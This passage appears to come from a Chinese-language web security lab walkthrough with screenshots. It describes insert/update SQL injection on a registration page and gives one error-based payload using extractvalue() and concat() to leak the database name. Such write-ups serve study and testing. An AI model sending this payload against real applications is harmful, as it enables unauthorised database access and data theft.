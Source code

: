> <img src="./IMG/0CM%7~O40YM(KL3%YUWVX4V.png">

### insert/update注入

进入注册页面，构建报错注入的payload。查询数据库

```sql
1' and extractvalue(1,concat(0x5c,(database()))) and '1'='1
```

> <img src="./IMG/OJNL6{ZNM0E50JU6G`%C}6Y.png">
